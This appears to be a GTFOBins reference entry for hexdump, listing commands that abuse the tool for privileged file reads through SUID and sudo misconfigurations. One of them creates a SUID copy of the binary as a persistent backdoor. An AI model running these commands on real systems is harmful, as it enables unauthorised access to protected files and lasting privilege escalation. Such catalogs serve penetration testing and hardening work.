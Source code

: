 # GTFOBin: hexdump

The output is actually an hex dump.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
hexdump -C "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which hexdump) .

LFILE=file_to_read
./hexdump -C "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo hexdump -C "$LFILE"
```